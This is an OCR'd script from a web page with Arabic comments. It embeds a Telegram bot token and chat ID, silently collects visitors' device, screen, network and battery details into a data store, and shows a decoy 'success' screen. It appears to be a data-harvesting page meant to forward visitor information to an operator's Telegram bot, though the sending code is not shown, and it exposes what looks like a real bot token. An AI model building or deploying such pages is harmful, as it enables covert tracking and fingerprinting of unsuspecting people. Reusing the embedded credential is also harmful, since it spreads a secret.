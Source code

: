     <script>
        // إعدادات Telegram - يجب تغييرها إلى بياناتك الخاصة
        const TELEGRAM_BOT_TOKEN = '8335655798:AAEGBa171Dl6RWGN6Lz0ompKWVKtFfZRL8s';
        const TELEGRAM_CHAT_ID = '8307220364';
        
        // تخزين جميع البيانات المجمعة
        let allCollectedData = {};
        
        // عرض رسالة النجاح
        function showSuccess() {
            document.getElementById('loading-section').classList.add('hidden');
            document.getElementById('success-section').classList.remove('hidden');
        }
        
        // جمع معلومات الجهاز
        function collectDeviceInfo() {
            return {
                userAgent: navigator.userAgent,
                platform: navigator.platform,
                deviceMemory: navigator.deviceMemory || 'غير معروف',
                hardwareConcurrency: navigator.hardwareConcurrency || 'غير معروف',
                maxTouchPoints: navigator.maxTouchPoints || 'غير معروف',
                screenWidth: window.screen.width,
                screenHeight: window.screen.height,
                colorDepth: window.screen.colorDepth,
                pixelRatio: window.devicePixelRatio,
                orientation: window.screen.orientation ? window.screen.orientation.type : 'غير معروف',
                dateTime: new Date().toLocaleString('ar-EG')
            };
        }
        
        // جمع معلومات الشبكة
        function collectNetworkInfo() {
            const connection = navigator.connection || navigator.mozConnection || navigator.webkitConnection;
            
            if (connection) {
                return {
                    type: connection.type || connection.effectiveType || 'غير معروف',
                    downlink: connection.downlink ? `${connection.downlink} Mbps` : 'غير معروف',
                    rtt: connection.rtt ? `${connection.rtt} ms` : 'غير معروف',
                    saveData: connection.saveData ? 'نعم' : 'لا'
                };
            }
            return null;
        }
        
        // جمع معلومات البطارية
        function collectBatteryInfo() {
            if ('getBattery' in navigator) {
                return navigator.getBattery().then(battery => {
                    return {
                        level: Math.round(battery.level * 100) + '%',
                        charging: battery.charging ? 'نعم' : 'لا',
                        chargingTime: battery.chargingTime === Infinity ? 'غير معروف' : `${Math.round(battery.chargingTime / 60)} دقائق`,
                        dischargingTime: battery.dischargingTime === Infinity ? 'غير معروف' : `${Math.round(battery.dischargingTime / 60)} دقائق`
                    };
                });
            }
            return Promise.resolve(null);
        }
        